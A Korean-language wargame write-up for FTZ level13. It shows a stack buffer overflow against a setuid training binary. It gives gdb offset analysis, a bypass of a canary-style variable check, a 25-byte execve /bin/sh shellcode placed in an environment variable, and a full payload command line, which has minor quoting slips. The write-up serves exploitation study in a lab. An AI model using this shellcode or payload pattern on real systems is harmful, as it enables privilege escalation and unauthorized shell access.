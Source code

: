# FTZ Level13

#### ID : level13 PW: have no clue
<br>

**먼저 ```ls -l```을 이용해 어떤 파일이 있는지 살펴보자**<br> 
attackme 프로그램에 level13의 권한으로 setuid가 걸려있는 것을 확인할 수 있다.<br><br>
우선 hint의 내용을 보자<br>
```cat hint```<br>
```c
#include <stdio.h>

int main(int argc, char *argv[])
{
      long i=0x1234567;
      char buf[1024];
      
      setreuid(3094, 3094);
      if(argc>1)                  #argv로 받는 입력이 1개 이상 있다면
      strcpy(buf, argv[1]);       #입력 buf로 복사
      
      if(i != 0x1234567){
      printf(" Warning: Buffer Overflow !!! \n");
      kill(0, 11);                #프로그램 종료
      }
}
```
```gets``` 함수에서 BOF가 일어날 수 있다!!<br>
또한 hint를 보면 i라는 변수가 0x1234567이 아닐 경우 프로그램을 종료시키는 것을 보아 BOF를 검사하고 있다.<br>

우리의 목적을 생각해보자.<br>
버퍼에 버퍼크기보다 넘치는 양을 담으면서 i는 0x1234567로 만들어줘야한다.  
그렇다면..!!!<br>
1. buf[1024]에서 i까지의 거리 구하기, i에서 ret까지의 거리 구하기
2. i를 0x1234567로 바꾸기
3. 환경 변수 선언하고 주소 얻디
4. 페이로드 작성하고 공격!

**attackme 코드를 디버깅해야하기 때문에 tmp폴더로 복사하자.**<br>
```cp attackme tmp```<br><br>
**그리고 디버깅을 해보자**<br>
```gdb -q attackme```<br>
```disas main```<br>

<main+3>을 보면 0x418만큼의 공간을 만들고 있다. 0x418은 10진수로 1048이다.<br>
i변수는 4byte, buf배열은 1024byte인데 1048을 할당했다는 것은 20byte만큼의 dummy가 있다는 것!<br>
dummy가 어디에 위치해 있는지 찾아봐야겠다.<br>
<main+61>을 보면 strcpy가 호출되고 있다. strcpy의 인자로 buf가 들어가는데!!<br>
<main+60> <main+54>를 보면 eax가 push되는데 그 eax의 주소가 0xfffffbe8인 것을 알 수 있다.<br>
그렇다! 0xfffffbe8이 바로 buf의 주소다! 이는 ebp로부터 -1048이다.<br>

i의 위치도 찾아보자.<br>
<main+69>를 보면 0x1234567과 0xfffffff4를 비교하고 있다. 0xffffff4가 i의 주소인 것이다.<br>
i는 ebp로부터 -12에 위치하고 있는 것이다.<br>

이제 buf에서 i까지의 거리를 구하면 1048-12=1036인 것을 알 수 있다.<br>
*( 0xffffff4 - 0xffffbe8해도 된다.)*<br>

그렇다면 우리가 작성할 페이로드는 다음과 같다고 할 수 있다.<br>
** "A"*(buf~i까지 거리)+0x1234567+"A"*(i에서 ret까지의 거리)+쉴 주소 **<br>

**자 이제 다음과 같이 환경변수를 작성해보자.** <br>
쉘 코드는 구글에서 돌아다니는 25byte짜리를 가져왔다. <br>
*(다음에 쉘 코드에 대해 더 공부해봐야겠다....)*<br>
```
export shellcode=$(python -c 'print "\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e
\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"')
```

**이제 쉘 코드의 주소를 알아보자**<br>
```vi shell.c``` vi로 쉘 주소 알아내는 코드를 작성해보자<br>
```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[1]){
      printf("%p\n", getenv("shellcode"));
      return 0;
}
```
그리고 만든 c코드를 컴파일 한 후 <br>
```gcc -o shell shell.c```<br>
실행시킨다!<br>
```./shell```<br>
그럼 주소가 떨어진다<br>
필자의 경우 **0xbffffef4**였다.<br>

**이제 페이로드를 작성해보자.**<br>
```./attackme (python -c 'print "A"*1036+"\x67\x45\x23\x01+"A"*12+"\xf4\xfe\xff\xbf"')```<br>
*(주소는 little endian 방식으로 입력된다)*<br>
<br>
```cd ..``` 다시 원래 디렉토리로 되돌아가서<br>
**공격 실시!**<br>
```./attackme (python -c 'print "A"*1036+"\x67\x45\x23\x01+"A"*12+"\xf4\xfe\xff\xbf"')```<br>
```my-pass```로 비밀번호를 물어보면<br>
Level14 Password is "~~". 라고 나올 것이다!!
